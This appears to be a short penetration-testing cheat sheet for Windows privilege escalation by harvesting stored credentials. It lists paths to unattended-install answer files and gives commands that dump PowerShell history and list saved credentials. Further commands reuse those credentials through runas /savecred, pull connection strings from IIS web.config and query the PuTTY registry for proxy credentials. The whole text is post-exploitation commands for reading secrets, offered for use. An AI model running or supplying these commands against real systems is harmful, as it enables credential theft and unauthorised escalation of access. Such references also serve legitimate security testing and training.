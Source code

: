### Unattended Windows Installations

    C:\Unattend.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\system32\sysprep.inf
    C:\Windows\system32\sysprep\sysprep.xml

### Powershell History
	type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
	type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

### Saved Windows Credentials
	cmdkey /list
	runas /savecred /user:admin cmd.exe

### IIS Configuration	
    C:\inetpub\wwwroot\web.config
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

	type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
### Retrieve Credentials from Software: PuTTY
	reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s


